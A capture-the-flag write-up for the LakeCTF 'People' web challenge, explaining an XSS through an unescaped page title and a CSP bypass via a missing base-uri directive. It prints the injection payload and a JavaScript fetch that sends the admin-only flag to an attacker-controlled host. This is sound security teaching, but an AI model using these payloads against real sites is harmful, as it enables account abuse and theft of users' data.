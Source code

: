 ```yaml
---
layout: post
title: LakeCTF Qualifications People (Web) Writeup
tags: [ctf, ctf writeup]
---
```


*Note: Some of the links to external sites about the challenge in this post might become unavailable in the future.*

This is my writeup to web challenge "[People](https://ctf.polygl0ts.ch/challenges#People-18)" in [LakeCTF](https://ctf.polygl0ts.ch/) Qualifications round. LakeCTF is orgnised by EPFL's CTF team [polygl0ts](https://polygl0ts.ch/). This challenge is solved by 36 teams out of 191 teams scored at least 1 point on the scoreboard. In this challenge I exploited XSS and improper configuration of CSP, more specifically omitting `base-uri`.

The challenge has a downloadable. Examining the code and the application, users can signup a profile with bio and other information, as well as logging in. Upon logging in, user is redirected to their profile page where user information is shown. Users can also report their profile, resulting in the profile page being visited by an admin bot.

This type of web challenges with a bot visiting the page normally involves in exploiting cross-site scripting (XSS).

It appears that it is likely the XSS is on the profile page that the bot visits, and the page displays user information stored in the database. We set the information of the user when signing up the user, however, the signup endpoint is rate limited, so we cannot test many payload through that endpoint on the live website. There is another `/edit` endpoint which also enables us to update user information, and there is no rate limit on that endpoint, so we could conveniently test different input on the live website without setting up our own docker container.

Our team managed to quickly find the potential injection point on the profile page. Despite the input are escaped when rendering the page, we noticed that the title also shows data from the database, and the code does not escape it:

{% raw %}
```html
{% set description = '%s at %s' % (user['title'], user['lab']) %}
{% block title %}{{user['fullname']}} | {{description|safe}}{% endblock %}
```
{% endraw %}

As shown above, the `safe` filter in the template disables escaping. Thus, we managed to put HTML and JavaScript code into the webpage.

## Bypass CSP

Despite we have managed to inject new tags and code, we could still not make the browser to execute our XSS code. This is because the app sets `Content-Security-Policy` HTTP header that only script tags with the defined nonce would run.

However, the CSP did not define `base-uri`, and two of the `<script>` tags on the profile page did not use full URL:

```html
<script src="/static/js/marked.min.js" nonce="qvAsaTf6Pe8F101A71nf7vOt1lktIAiK"></script>
<script src="/static/js/purify.min.js" nonce="qvAsaTf6Pe8F101A71nf7vOt1lktIAiK"></script>
```

Conveniently, the XSS injection point is in `<title>`, which is in `<head>`, thus we are able to define new base:

```html
<base href="https://my-server.example.com">
```

This will result in one of the script on the profile page to load from `https://my-server.example.com/static/js/marked.min.js` and execute.

The final info we set to user's title in their profile is `</title><base href="https://my-server.example.com"></head>`, and we serve the JavaScript payload at `https://my-server.example.com/static/js/marked.min.js`.

## Getting the Flag

Now we are able to make the profile page to pop an alert of whatever we put in the JavaScript file. However our goal is to steal the flag. The flag is accessible through the `/flag` endpoint in the webapp. The endpoint checks for `admin_token` in cookies. We might want to steal the cookies first, however, when the admin bot visits the webpage, their cookie is set to `httpOnly`, so we cannot use XSS to get the cookie. As getting the flag is our only goal, we can workaround by using `fetch` API or XMLHttpRequest. As when doing such request on the same site, cookies are sent, and flag will be retrieved.

Our final JavaScript for getting the flag and exfil is:

```javascript
fetch("http://web:8080/flag")
    .then((response) => response.text())
    .then((data) => fetch("https://my-server.example.com/xss?" + data));
```
